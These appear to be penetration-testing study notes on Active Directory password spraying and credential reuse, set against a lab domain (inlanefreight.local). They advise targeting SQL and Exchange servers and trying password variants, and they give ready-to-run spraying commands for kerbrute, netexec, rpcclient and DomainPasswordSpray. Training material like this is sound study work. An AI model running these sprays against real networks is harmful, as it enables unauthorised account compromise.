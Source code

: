 This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

> [!NOTE] Note
> If you find a set of valid credentials, pass it around the entire network to see if it's a local admin anywhere

#### Kerbrute
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### Netexec
```bash
netexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
#### rpcclient
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Windows)
DomainPasswordSpray will generate a user file for us
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue
```